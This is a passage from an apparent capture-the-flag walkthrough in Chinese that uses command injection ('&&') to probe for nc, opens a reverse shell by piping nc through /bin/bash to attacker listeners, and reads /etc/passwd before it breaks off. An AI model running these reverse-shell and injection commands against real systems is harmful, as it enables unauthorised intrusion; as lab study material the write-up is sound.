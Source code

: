 成功执行了命令





### nc bash反弹

查看bin目录有没有nc

```
&&ls /bin
VAZYW9RHPu6D

```

目标存在

使用nc连接

```
&&nc 10.0.0.27 4444
```

连接成功，接下来反弹shell

```
&&nc 172.16.42.147 4444 -e /bin/bash
```

发现不成功，那么nc没有-e命令



###  nc串联

```
&&nc 172.16.42.147 4444 | /bin/bash | nc 172.16.42.147 5555
```

kali监听两个端口

```
nc -nvlp 4444
nc -nvlp 5555
```

将上诉命令编码后发送，我们就可以在4444端口执行命令，在5555端口查看结果





## 4. 尝试提权



cat /etc/passwd，发现如下账号

```
imera:x:1000:1000:imera:/home/imera:/bin/bash
```

进入 /home/imera，发现user.txt，
